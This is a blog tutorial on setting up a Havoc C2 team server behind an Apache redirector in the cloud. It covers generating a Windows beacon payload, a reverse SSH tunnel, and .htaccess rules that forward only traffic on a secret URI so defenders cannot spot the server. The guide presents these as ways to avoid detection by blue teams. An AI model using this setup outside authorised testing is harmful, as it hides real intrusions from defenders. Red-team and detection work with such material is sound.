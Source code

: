 ```yaml
---
layout: post
title: HTTP Redirector With Havoc
subtitle: Guide
thumbnail-img: /assets/img/havoc-kali/Havoc.png
tags: [GUIDE]
---
```


In this blog post, we’ll explore the process of setting up an HTTPS redirector for Command and Control (C2) traffic. This technique allows attackers to place a C2 server behind an external redirector, effectively filtering out unwanted traffic—such as probes from blue teamers—while ensuring that legitimate C2 traffic is forwarded seamlessly.

The redirector will be placed in an expendable cloud resource, while the more permanent team server can be on-premises or in another cloud resource. Below is a basic diagram of what everything will look like when we are finished. 

![Havoc](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/httpRedirector/1.png)

## Team Server Configuration
Follow [this guide](https://blog.0xzon.dev/2024-07-06-Installing-Havoc-C2-On-Kali-Linux/) on how to install and configure the team server. Just about any C2 will work, but some modifications might be required.

### Listener 
With the team server up and running, we can start a listener to catch our shell.

To start a listener, navigate to **View -> Listeners**.
![Havoc](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/httpRedirector/2.png)

A new tab will open at the bottom called "Listeners." Click the "Add" button. A window like the one below will open. There are a few key options that we will need to fill out:

- **Name**: Enter a name for the listener, for example, "HTTP."
- **Hosts**: Add the IP of your **cloud server** in this section.
- **Port**: Configure the port to listen on, for example, "80."
- **URI**: Add a URI that the team server will use to communicate with the infected beacon. This adds some security by obscurity and will also help us later filter out unwanted traffic.

![Havoc](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/httpRedirector/3.png)

With a listener waiting for callbacks, we can now generate some payloads. Navigate to **Attack -> Payload**.

![Havoc](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/httpRedirector/4.png)

On the payload screen, select our HTTP listener and leave the rest as default for now. Make sure the format is set to "Windows Exe."
![Havoc](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/httpRedirector/5.png)

Save the file, and we are ready to move on to the redirector.

## Redirector Configuration
### Cloud Redirector
You can pick any cloud provider to host the redirector. In this guide, I'll use DigitalOcean, but you could use AWS, Azure, etc.

1. Spin up a low-resource server in any cloud provider and SSH into it.
### Apache Installation
Once on your server, we will install `apache2` and a few plugins.

```bash
sudo apt install apache2
sudo a2enmod ssl rewrite proxy proxy_http
sudo systemctl restart apache2
```

### HTTP
Next, we will configure the `apache2` service to forward traffic back to our team server. To achieve this, we need to set up a reverse SSH tunnel from our team server to our redirector.

When HTTP requests are made to the HTTP server and meet certain conditions, we want it to pass the traffic to a different port, which will then forward it to the team server. Run this command on the team server:

`ssh -N -R 880:localhost:80 attacker@CLOUDIP`

This command does the following:

- **-N**: Instructs SSH not to execute a remote command.
- **-R 880:localhost:80**: Specifies that the redirector will listen on port 880 and forward any traffic sent to it to port 80 on the team server.

This setup ensures that port 880 on the redirector forwards traffic to port 80 on the team server, where our listener will be waiting.

With the reverse SSH tunnel running, switch back to your redirector and update the Apache configuration to forward traffic to the team server. Add the following snippet to the end of `/etc/apache2/sites-enabled/000-default.conf`:

```
<Directory /var/www/html/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride All
    Require all granted
</Directory>
```

This configuration block does the following:

- **Options Indexes FollowSymLinks MultiViews**: Allows indexing of directories, following symbolic links, and multi-view content negotiation.
- **AllowOverride All**: Permits `.htaccess` files to override Apache configurations.
- **Require all granted**: Grants access to all requests.

Next, create `.htaccess` file in `/var/www/html` and add the following content:
```
RewriteEngine on
RewriteRule ^.*$ https://localhost:880%{REQUEST_URI} [P]
```

This `.htaccess` file does the following:

- **RewriteEngine on**: Enables the runtime rewriting engine.
- **RewriteRule ^.\*$ https://localhost:880%{REQUEST_URI} [P]**: Redirects all incoming requests to `https://localhost:880` while preserving the original request URI. The `[P]` flag tells Apache to use a proxy for this request.

Now that everything is configured, execute the payload we generated earlier. You should receive a callback on your team server!
### Redirection Rules
At this point, we have a publicly accessible forwarder sending all HTTP traffic back to our C2 server. However, this setup is still vulnerable to fingerprinting and signature detection by blue teams.

To mitigate this, we can modify the `.htaccess` file to create more stringent rules that control which traffic is forwarded to the C2 server. This helps to obscure our operations and reduce the risk of detection.

#### URI
The rule set below ensures that only traffic directed to the URI `/zon` is forwarded. This selective forwarding can help in filtering out unwanted traffic and adds an extra layer of security by making it harder for adversaries to discover the team server. A generic internet scanner or blue team member would not know that our cloud server is a redirector for C2 traffic; they would have to know or discover our `/zon` URI.
```
RewriteEngine on

RewriteCond %{REQUEST_METHOD} GET [NC]
RewriteCond %{REQUEST_URI} zon
RewriteRule ^.*$ http://localhost:880%{REQUEST_URI} [P,L]
  

RewriteCond %{REQUEST_METHOD} POST [NC]
RewriteCond %{REQUEST_URI} zon
RewriteRule ^.*$ http://localhost:880%{REQUEST_URI} [P,L]

```

Explanation:

- **RewriteCond %{REQUEST_METHOD} GET [NC]**: This condition checks if the request method is GET. The `[NC]` flag makes this condition case-insensitive.
- **RewriteCond %{REQUEST_URI} zon**: This condition checks if the request URI contains "zon".
- **RewriteRule ^.\*$ http://localhost:880%{REQUEST_URI} [P,L]**: This rule forwards the request to `http://localhost:880` while preserving the original request URI. The `[P]` flag tells Apache to use a proxy, and the `[L]` flag ensures this is the last rule to be processed if the conditions are met.

